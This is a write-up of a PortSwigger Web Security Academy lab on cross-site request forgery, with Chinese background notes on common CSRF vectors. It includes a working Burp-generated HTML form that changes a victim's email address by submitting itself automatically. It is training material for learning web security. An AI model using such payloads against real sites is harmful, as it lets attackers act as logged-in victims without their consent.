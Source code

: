 ```yaml
---
title: CSRF - APPRENTICE
tags: [Portswigger Web Security Academy, Web]

category: "Security/Practice/Portswigger Web Security Academy/CSRF"
---
```


# CSRF - APPRENTICE
<!-- more -->
###### tags: `Portswigger Web Security Academy` `Web`
[TOC]

## Lab: CSRF vulnerability with no defenses
* Description: This lab's email change functionality is vulnerable to CSRF. 
* Goal: To solve the lab, craft some HTML that uses a CSRF attack to change the viewer's email address and upload it to your exploit server. 
You can log in to your own account using the following credentials: `wiener:peter`
* Hint: You cannot register an email address that is already taken by another user. If you change your own email address while testing your exploit, make sure you use a different email address for the final exploit you deliver to the victim.

## Background
:::spoiler
[CSRF 攻擊原理](https://medium.com/@Tommmmm/csrf-攻擊原理-d0f2a51810ca)
[[Day25]- 新手的Web系列CSRF](https://ithelp.ithome.com.tw/articles/10251769)
>1. 使用者登入網站
>2. 使用者透過身份驗證在本機形成cookie
>3. 使用者點擊含有惡意程式的連結，或是直接連結了第三方網站，並瀏覽了帶有以下html程式碼的網頁：`<img src=http://www.***.com/transfer.php?id=5&money=22>`
>4. 惡意程式碼利用使用者的身份發請求，即執行CSRF
>5. 使用者的帳號少錢錢勒QQ
>
> ![](https://i.imgur.com/gwCvSqZ.png)
>---
>>常見的CSRF方法
>* HTML標籤
>    * `<img>`標籤屬性
>        ```html
>        <img src="惡意連結">
>        ```
>    以GET方式請求第三方網站，瀏覽器會帶上使用者的cookie發出GET請求
>    
>    * `<script>`標籤屬性
>        ```javascript
>        `<script src="惡意連結">`
>        ```
>    * `<iframe>`標籤屬性
>        ```html
>        `<iframe src="惡意連結">`
>        ```
:::

## Recon
1. According to the description
It said the email change function has some CSRF exploitation. So, maybe I can login by username and password they provided.
![](https://i.imgur.com/YW4dJqa.png)
2. Find where has CSRF
Then I tried to change my email and trace the package
![](https://i.imgur.com/z2AXOk1.png)

3. Then we can forge a website and let our victim to access
In this lab, PortSwigger provided an exploited server that can simulate a victim to access.

## Exp
Directly create CSRF PoC by Burp Suit
![](https://i.imgur.com/oY6NlZE.png)

Exploit Payload:
```javascript=
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <script>history.pushState('', '', '/')</script>

    <form action="https://0a050071049c31f4815898e900330005.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="danger&#64;gmail&#46;com" />
    </form>
    <script>
          document.forms[0].submit();
    </script>
  </body>
</html>
```
:::spoiler Success Screenshot
![](https://i.imgur.com/nlgu1Oa.png)
:::

## Reference
[Burp Suite Security Academy Writeup](https://github.com/frank-leitner/portswigger-websecurity-academy)
[从0到1完全掌握 CSRF](https://zhuanlan.zhihu.com/p/517735618)
[Lab: CSRF vulnerability with no defenses - write up](https://blog.csdn.net/ZripenYe/article/details/120793709)
